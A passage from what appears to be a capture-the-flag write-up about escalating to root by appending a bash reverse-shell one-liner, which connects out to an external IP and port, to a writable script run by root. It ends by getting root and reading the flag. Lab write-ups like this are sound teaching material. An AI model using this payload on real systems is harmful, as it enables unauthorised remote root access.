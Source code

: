 ![](attachments/20240722104836.png)

As we can see the the script is run as the root user and most probably as a cronjob and we also have full permission to this script.

We can easily just insert a reverse shell payload into this file like the one used earlier and wait for a shell on our netcat listener

- setup a netcat listener on your ngrok port
- insert your payload into the script

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/18.197.239.109/14956 <&1'" >> escalate.sh
```

![](attachments/20240722105137.png)

And we have root access

![](attachments/20240722105219.png)

Navigate to the root directory and cat the flag
